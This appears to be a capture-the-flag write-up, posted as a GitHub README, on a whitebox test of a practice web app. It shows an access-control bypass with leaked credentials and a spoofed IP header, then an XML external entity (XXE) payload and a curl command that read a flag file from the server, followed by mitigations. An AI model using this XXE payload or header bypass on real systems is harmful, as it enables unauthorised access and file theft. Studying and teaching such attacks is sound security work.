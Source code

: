 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they can be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- kali linux (OS)
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**

![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**

 Since its a whitebox test,configuration files where provided in a zip file.
 
  
![c](https://github.com/user-attachments/assets/d87c1c3b-c666-4a45-86d9-9b3cccfd0ad1)



  *Panel.php looks like an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
**Lets open up the panel.php file**

  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
- We have admin username and password
  
- A whole ip address and what looks like a vpn server name....hmmm

**Lets take out the big guns now......Burpsuite!**

  --> Intercept request with proxy
  
  --> Insert credentials and spoofed IP in HTTP Header.
  
  --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats happening is that the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

**Classification:** XML External Entity (XXE) Injection

**Impact:** High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body 
 
> payload from PayloadsAllThings [View Payload](https://github.com/Mumbi-Sec/PayloadsAllThings/blob/b9e847decb60d436f632a33f48f68fabaa324900/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)
 



![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)


 *Look at this server.....so..**responsive** lol*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

    POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
    Host: challenge.zedbounty.com

    X-VIVACELL-VPN: 41.18.611.104

    Content-Type: application/xml

    Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


**Alternative:**

you can also get the same result using the curl tool by pasting your payload in a file, then use the following command on your terminal:

       curl -X POST "https://challenge.zedbounty.com/panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123" -H "X-VIVACELL-VPN: 41.18.611.104" -H "Content-Type: application/xml" --data-binary @payloadfile.xml



### 4. Mitigation

- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned

- Bypassing directory access controls using HTTP Header requests.
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- Never trust user supplied headers to validate ip addresses!

### Thank you.....

## Credits and sources

https://zedbounty.com/

https://portswigger.net/web-security/xxe
